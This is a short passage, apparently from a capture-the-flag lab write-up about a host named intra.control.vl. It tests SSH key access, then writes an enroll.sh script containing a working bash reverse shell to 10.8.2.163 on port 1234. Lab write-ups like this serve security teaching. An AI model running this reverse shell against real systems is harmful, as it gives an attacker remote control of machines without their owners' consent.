 And it works, now test by connecting with the ssh key on ```intra.control.vl```

![alt text](../assets/image_control/before_last.png)

Ok nice, just create ```/toto/tata/enroll.sh```

```bash
mkdir -p toto/tata
echo '#!/bin/bash' > toto/tata/enroll.sh
echo 'bash -c "bash -i >& /dev/tcp/10.8.2.163/1234 0>&1"' >> toto/tata/enroll.sh
```